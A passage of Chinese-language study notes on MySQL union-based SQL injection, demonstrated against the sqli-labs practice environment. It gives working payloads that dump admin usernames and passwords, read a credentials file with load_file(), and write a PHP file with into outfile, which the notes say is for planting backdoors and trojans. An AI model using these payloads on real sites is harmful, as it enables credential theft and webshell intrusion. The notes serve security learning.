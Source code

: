 ![image-20220726155734752](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726155734752.png)

#### 查询指定数据

```mysql
union select 1,u,p,4 from qqyw.admin    # 查询u,p两列的数据，注意指定admin来自qqyw
```

### 信息收集（低版本数据库）

暴力查询或结合读取查询

- SQLmap工具——字典dicts.py
- load_file读取源代码的数据库查询语句
- 暴力猜解——admin，password，passwd,user,member

### 文件读写操作

- load_file()：读取函数，读取文件内容

  ![image-20220726160705262](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726160705262.png)

  常见的load_file()读取的敏感信息路径：https://blog.csdn.net/weixin_30292843/article/details/99381669

  ```mysql
  id=-1 union select 1,loadfile('d:/www.txt'),3
  id=-1 union select 1,load_file('C:/phpstudy/PHPTutorial/WWW/sqli-labs-master/sql-connections/db-creds.inc'),3
  ```

  ![image-20220726162851222](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726162851222.png)

  ![image-20220726163415752](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726163415752.png)

- into outfile或 into dumpfile ：写入文件（写入后门、木马）

  ![image-20220726160842023](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726160842023.png)

  ```mysql
  union select 1,'x',3 into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\sqli-labs-master\\x.php'--+
  ```

  其中--+用于注释后面的语句，后面有limit 0,1。

  ![image-20220726163809879](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726163809879.png)

#### 文件路径获取

文件的读写都需要获取到文件路径，路径获取常见方法包括：

**报错显示**：网站报错时，显示的一些路径信息。

![image-20220726161419446](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220726161419446.png)

**遗留文件**：站长调试网站时遗留的一些文件，比如phpinfo.php。通过该文件可以得到路径信息。
